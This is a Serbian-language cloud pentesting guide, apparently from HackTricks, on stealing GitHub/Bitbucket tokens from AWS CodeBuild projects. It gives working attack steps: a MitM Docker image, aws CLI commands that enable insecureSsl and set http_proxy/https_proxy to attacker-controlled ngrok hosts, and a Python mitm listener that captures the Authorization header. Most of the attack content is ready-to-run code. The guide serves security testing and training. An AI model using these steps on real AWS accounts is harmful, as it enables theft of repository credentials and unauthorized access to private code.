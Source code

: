 # AWS Codebuild - Token Leakage

{{#include ../../../../banners/hacktricks-training.md}}

## Oporavak konfigurisanih tokena za Github/Bitbucket

Prvo, proverite da li postoje bilo akreditivi izvora koji su konfigurirani koje biste mogli da iscurite:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Ako otkrijete da je autentifikacija, na primer, za Github postavljena na nalogu, možete **izvršiti** tu **pristup** (**GH token ili OAuth token**) tako što ćete naterati Codebuild da **koristi specifičnu docker sliku** za pokretanje izgradnje projekta.

U tu svrhu možete **napraviti novi Codebuild projekat** ili promeniti **okruženje** postojećeg da postavite **Docker sliku**.

Docker slika koju možete koristiti je [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Ovo je vrlo osnovna Docker slika koja će postaviti **env promenljive `https_proxy`**, **`http_proxy`** i **`SSL_CERT_FILE`**. Ovo će vam omogućiti da presretnete većinu saobraćaja hosta navedenog u **`https_proxy`** i **`http_proxy`** i verujete SSL CERT-u navedenom u **`SSL_CERT_FILE`**.

1. **Kreirajte i otpremite svoju Docker MitM sliku**
- Pratite uputstva iz repozitorijuma da postavite svoju proxy IP adresu i postavite svoj SSL certifikat i **izgradite docker sliku**.
- **NE POSTAVLJAJTE `http_proxy`** da ne biste presreli zahteve ka metadata endpoint-u.
- Možete koristiti **`ngrok`** kao `ngrok tcp 4444` da postavite proxy na vaš host.
- Kada izgradite Docker sliku, **otpremite je na javni repo** (Dockerhub, ECR...)
2. **Postavite okruženje**
- Kreirajte **novi Codebuild projekat** ili **izmenite** okruženje postojećeg.
- Postavite projekat da koristi **prethodno generisanu Docker sliku**.

<figure><img src="../../../../images/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Postavite MitM proxy na vašem hostu**

- Kao što je navedeno u **Github repozitorijumu**, možete koristiti nešto poput:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
> [!TIP]
> Verzija **mitmproxy koja je korišćena je 9.0.1**, prijavljeno je da sa verzijom 10 ovo možda neće raditi.

4. **Pokrenite gradnju i zabeležite akreditive**

- Možete videti token u **Authorization** header-u:

<figure><img src="../../../../images/image (273).png" alt=""><figcaption></figcaption></figure>

Ovo se takođe može uraditi iz aws cli sa nečim poput
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
### Via insecureSSL

**Codebuild** projekti imaju podešavanje pod nazivom **`insecureSsl`** koje je skriveno na vebu i može se promeniti samo putem API-ja.\
Omogućavanje ovoga omogućava Codebuild-u da se poveže sa repozitorijumom **bez provere sertifikata** koji nudi platforma.

- Prvo treba da enumerišete trenutnu konfiguraciju sa nečim poput:
```bash
aws codebuild batch-get-projects --name <proj-name>
```
- Zatim, sa prikupljenim informacijama možete ažurirati postavku projekta **`insecureSsl`** na **`True`**. Sledeći je primer mog ažuriranja projekta, obratite pažnju na **`insecureSsl=True`** na kraju (ovo je jedina stvar koju treba da promenite iz prikupljene konfiguracije).
- Pored toga, dodajte i env varijable **http_proxy** i **https_proxy** koje upućuju na vaš tcp ngrok kao:
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
- Zatim pokrenite osnovni primer sa [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) na portu koji su označili proxy varijable (http_proxy i https_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
- Na kraju, kliknite na **Build the project**, **akreditivi** će biti **poslati u čistom tekstu** (base64) na mitm port:

<figure><img src="../../../../images/image (1) (1).png" alt=""><figcaption></figcaption></figure>

### ~~Putem HTTP protokola~~

> [!TIP] > **Ova ranjivost je ispravljena od strane AWS-a u nekom trenutku tokom nedelje 20. februara 2023. (mislim u petak). Tako da napadač više ne može da je zloupotrebi :)**

Napadač sa **povišenim dozvolama u CodeBuild-u mogao bi da iscuri Github/Bitbucket token** koji je konfigurisan ili ako su dozvole konfigurirane putem OAuth, **privremeni OAuth token koji se koristi za pristup kodu**.

- Napadač bi mogao da doda promenljive okruženja **http_proxy** i **https_proxy** u CodeBuild projekat koje upućuju na njegovu mašinu (na primer `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../images/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../images/image (213).png" alt=""><figcaption></figcaption></figure>

- Zatim, promenite URL github repozitorijuma da koristi HTTP umesto HTTPS, na primer: `http://github.com/carlospolop-forks/TestActions`
- Zatim, pokrenite osnovni primer sa [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) na portu koji su označile proxy promenljive (http_proxy i https_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="0.0.0.0",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
- Zatim kliknite na **Build the project** ili pokrenite build iz komandne linije:
```sh
aws codebuild start-build --project-name <proj-name>
```
- Na kraju, **akreditivi** će biti **poslati u čistom tekstu** (base64) na mitm port:

<figure><img src="../../../../images/image (159).png" alt=""><figcaption></figcaption></figure>

> [!WARNING]
> Sada će napadač moći da koristi token sa svoje mašine, da izlista sve privilegije koje ima i (zlo)upotrebi lakše nego korišćenjem CodeBuild servisa direktno.

{{#include ../../../../banners/hacktricks-training.md}}
